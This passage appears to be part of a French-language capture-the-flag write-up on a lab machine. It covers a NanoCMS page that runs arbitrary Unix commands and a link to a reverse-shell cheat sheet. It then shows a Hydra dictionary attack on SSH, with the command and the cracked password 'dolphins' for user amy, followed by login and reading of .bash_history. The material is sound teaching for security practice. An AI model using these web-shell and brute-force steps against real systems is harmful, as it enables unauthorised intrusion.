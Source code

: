 Voici un premier exemple, avec la création d'une page qui exécute sur le serveur toute commande Unix passée en paramètre.

![Affichage de l'image CTF5_NanoCMS3.png](images/CTF5_NanoCMS3.png)

![Affichage de l'image CTF5_NanoCMS4.png](images/CTF5_NanoCMS4.png)

Ou encore mieux, la possibilité [d'obtenir un accès similaire](https://www.asafety.fr/reverse-shell-one-liner-cheat-sheet/) à celui de la CVE-2017-7692.

![Affichage de l'image CTF5_NanoCMS5.png](images/CTF5_NanoCMS5.png)

![Affichage de l'image CTF5_NanoCMS6.png](images/CTF5_NanoCMS6.png)

C'est cool d'avoir un shell, mais ce serait tout de même bien mieux avec un autre compte Unix (sans rancune, apache).

### Attaque par dictionnaire avec Hydra sur SSH, partie 1

Pour rappel, cinq comptes Unix disposant d'un shell valide ```/bin/bash``` ont été trouvés dans le fichier ```/etc/passwd```.

Pour trouver les mots de passe de Patrick, de Jennifer, d'Andy, de Loren et d'Amy, [plusieurs techniques sont possibles](https://repo.zenk-security.com/Reversing%20.%20cracking/Cracking_Passwords_Guide.pdf) : [les attaques par bruteforce](https://en.wikipedia.org/wiki/Brute-force_attack) qui consistent à tester, de manière exhaustive, toutes les combinaisons possibles ; [les attaques par dictionnaire](https://en.wikipedia.org/wiki/Password_cracking) qui consistent à tester un sous-ensemble de mots ou de combinaisons placés dans un fichier texte ; ou bien [les attaques par social engineering](https://en.wikipedia.org/wiki/Social_engineering_(security)), qui visent à accéder à des informations confidentielles par la manipulation de personnes.

L'attaque par dictionnaire avait plutôt bien fonctionné sur SquirrelMail, donc autant réutiliser l'outil-couteau-suisse [__Hydra__](https://sectools.org/tool/hydra/).

```console
root@blinils:~# cat usersCTF5.txt
patrick
jennifer
andy
loren
amy
    
root@blinils:~# hydra -L usersCTF5.txt -P /usr/share/dict/500-worst-passwords.txt 192.168.56.101 ssh -t 10
--snip--
[DATA] attacking ssh://192.168.56.101:22/
[22][ssh] host: 192.168.56.101   login: amy   password: dolphins
1 of 1 target successfully completed, 1 valid password found
--snip--
```

Il s'agit du même mot de passe trouvé précédemment, il faudra s'en contenter pour l'instant.

```console
root@blinils:~# ssh amy@192.168.56.101
amy@192.168.56.101's password: 
Last login: Wed Apr 29 10:59:38 2009 from 192.168.229.1

[amy@localhost ~]$ id
uid=504(amy) gid=504(amy) groups=504(amy) context=unconfined_u:system_r:unconfined_t:s0

[amy@localhost ~]$ cat .bash_history
su patrick
su jennifer
su andy
su loren
exit
```